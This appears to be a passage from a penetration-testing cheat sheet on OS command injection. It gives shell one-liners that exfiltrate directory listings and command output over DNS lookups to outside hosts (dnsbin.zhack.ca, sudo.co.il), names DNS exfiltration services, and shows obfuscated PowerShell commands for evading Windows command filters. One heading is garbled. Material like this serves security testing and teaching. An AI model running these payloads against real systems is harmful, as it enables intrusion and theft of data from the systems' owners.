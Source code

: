 Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca
```
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```

```
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```
### DNS vItlhutlh

* dnsbin.zhack.ca
* pingb.in

### Filtering bypass

#### Windows
```
powershell C:**2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:**32\c*?c.e?e # calc
```
#### Linux

{% content-ref url="../linux-hardening/useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../linux-hardening/useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

## Brute-Force Detection List

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/command_injection.txt" %}

## References

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
* [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
